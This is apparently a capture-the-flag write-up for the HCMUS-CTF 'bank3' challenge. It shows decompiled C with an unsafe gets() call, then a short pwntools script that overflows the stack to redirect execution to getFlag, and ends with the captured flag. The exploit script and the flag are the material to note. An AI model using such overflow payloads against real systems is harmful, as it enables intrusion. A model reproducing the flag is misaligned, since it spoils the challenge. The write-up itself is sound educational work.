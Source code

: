 ## bank3 (100 points)

#### Solved by hieplpvip

```
nc 61.28.237.24 30204

author: xikhud
```

`bank3` is very similar to `bank2`, except that the part which calls `getFlag` is removed:

```cpp
void Register()
{
  char name[64]; // [esp+Ch] [ebp-4Ch]
  int balance; // [esp+4Ch] [ebp-Ch]

  balance = 0;
  printf("[+] Please enter your name: ");
  gets(name);
  printf("[+] Thanks for the registration, your balance is %d.\n", balance);
}
```

We exploit buffer overflow to overwrite the return address with the address of `getFlag`:

```py
from pwn import *
conn = remote('61.28.237.24', 30204)
conn.sendlineafter("name:", b'a' * 80 + p32(0x08048506))
conn.interactive()
```

**Flag:** `HCMUS-CTF{overwrite_all_the_things}`
